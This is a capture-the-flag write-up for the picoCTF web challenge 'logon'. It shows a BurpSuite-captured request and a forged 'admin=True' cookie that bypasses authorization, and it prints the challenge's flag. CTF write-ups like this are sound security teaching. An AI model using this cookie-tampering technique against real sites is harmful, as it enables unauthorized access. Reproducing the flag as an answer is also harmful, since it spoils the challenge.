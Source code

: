 # logon
Description: The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at?
Category: Web Exploitation, 100 points.

## Solution
The problem provides us with a link which when visited, displays a typical login page with a field for a username and password. The description of the problem hints at the username 'Joe". Let's try that first.
Inputting 'Joe' into the username field and leaving the password empty yields a page with a large red box showing the words: "I'm sorry Joe's password is super secure. You're not getting in that way". 
However, it seems like the site only scans the password of Joe, as you can login without a password by using any other username. Doing this yields a page with a green box stating "Success: You logged in! Not sure you'll be able to see the flag though.", and a gray box stating "No flag for you".

Using BurpSuite's HTTP History, we can see the login request: 
```http
GET /problem/15796/flag HTTP/1.1
Host: jupiter.challenges.picoctf.org
Cookie: password=; username=ratticus; admin=False
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://jupiter.challenges.picoctf.org/problem/15796/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```
The username and password cookies are predictable, but there is a third cookie, "admin=False". We can send this login request over to BurpSuite's Repeater to edit and re-forward it.
Changing line 3 of the request to:
```http
Cookie: password=; username=ratticus; admin=True
```
and forwarding the request gives us a new page, with the green box removed, and the gray box displaying the flag.

### Flag: picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}
